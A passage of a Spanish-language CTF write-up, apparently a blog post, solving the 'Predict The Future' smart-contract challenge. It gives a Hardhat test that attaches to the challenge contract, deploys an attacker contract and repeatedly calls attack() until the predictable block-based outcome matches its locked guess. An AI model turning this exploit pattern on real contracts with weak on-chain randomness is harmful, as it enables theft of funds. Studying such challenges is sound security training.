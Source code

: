   {% highlight typescript %}
    import { expect } from "chai";
    import { ethers } from "hardhat";
    import { Contract } from "ethers";
    import { calmarLaManija } from "../../ayudines/calmarLaManija";

    let predictContract: Contract;
    let attackContract: Contract;

    beforeEach(async() =>{
      const predictFactory = await ethers.getContractFactory("PredictTheFutureChallenge");
      // predictContract = await predictFactory.deploy();
      predictContract = await predictFactory.attach("0x4aD565be896BedF3b6BdCB5752B12CB9A5fFA383");
      const attackFactory = await ethers.getContractFactory("PredictTheFutureAttacker");
      attackContract = await attackFactory.deploy(predictContract.address);
    })

    describe("Predict The Future",async ()=>{
      it("Resuelve el Lottery challenge - Predict The Future",async()=>{
        await attackContract.lockInGuess(2,{
                value: ethers.utils.parseEther("1"),
                gasLimit: 1e5
        });

        while (!await predictContract.isComplete()) {
          try {
            const transaction = await attackContract.attack({gasLimit:1e5});
            console.log("----------------------------------------------------------------");
            console.log(transaction.hash);
          } catch (err:any) {
            console.log(`ATAQUE REALIZADO SIN ÉXITO. ${err.message}`);
          }
          await calmarLaManija(1e4); //Espero, porque si no va a iterar una banda de tiempo mostrando 99999 consologueos. Además puede haber mal funcionamiento porque el valor cambie a mitad de la ejecución.
        }
        const isComplete = await predictContract.isComplete();    
        expect(isComplete, "DESAFÍO INCOMPLETO").to.be.true;
      })
    })

  {% endhighlight %}
  <br>
  <br>
  <b><i>ACLARACIONES</i></b>:
  <ul>
    <li>
      No es necesario lockear un número en particular, ya que realizaremos n intentos hasta dar con nuestro objetivo. Simplemente elegí un número entre 0 y 9 (por lo del operador módulo 10).
    </li>
    <li>
      La función calmarLaManija es una pavadita para esperar un poco. Te la dejo en este <a href="https://gist.github.com/bengalaq/1ea7e126eb8b994bc7b2c1c23b39f744">gist</a> para que nunca falte la calma en tu vida ❤️
    </li>
  </ul>
  